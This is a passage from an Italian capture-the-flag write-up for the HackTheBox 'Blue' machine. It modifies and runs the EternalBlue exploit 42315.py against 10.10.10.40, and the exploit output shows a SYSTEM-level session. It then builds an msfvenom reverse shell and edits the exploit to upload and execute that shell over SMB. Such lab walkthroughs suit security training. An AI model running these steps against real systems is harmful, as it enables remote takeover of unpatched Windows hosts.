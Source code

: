 Modifichimao il l'exploit come segue per testasre se risuciamo ad scrivre sulla macchina target
```python2
USERNAME = 'guest'
PASSWORD = ''
```

Lanciamo l'exploit per esegurie un test 

```bash
┌──(root㉿kali)-[/home/kali/htb/blue]
└─# python2 42315.py 10.10.10.40
Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: samr
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa8003602260
SESSION: 0xfffff8a00bf8eca0
FLINK: 0xfffff8a012830088
InParam: 0xfffff8a01282a15c
MID: 0xc03
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
creating file c:\pwned.txt on the target
Done
```

Funziona non ci resta che creare la revshell come segue:

```bash
┌──(root㉿kali)-[/home/kali/htb/blue]
└─# msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.9 LPORT=4444 > eternal-blue.exe
```

Modifichiamo ancora l'exploit

```python2
def smb_pwn(conn, arch):
        smbConn = conn.get_smbconnection()

        print('creating file c:\\pwned.txt on the target')
        tid2 = smbConn.connectTree('C$')
        fid2 = smbConn.createFile(tid2, '/pwned.txt')
        smbConn.closeFile(tid2, fid2)
        smbConn.disconnectTree(tid2)

        smb_send_file(smbConn, '/home/kali/htb/blue/eternal-blue.exe', 'C', '/eternal-blue.exe')
        service_exec(conn, r'cmd /c C:\eternal-blue.exe')
        # Note: there are many methods to get shell over SMB admin session
        # a simple method to get shell (but easily to be detected by AV) is
        # executing binary generated by "msfvenom -f exe-service ..."
```
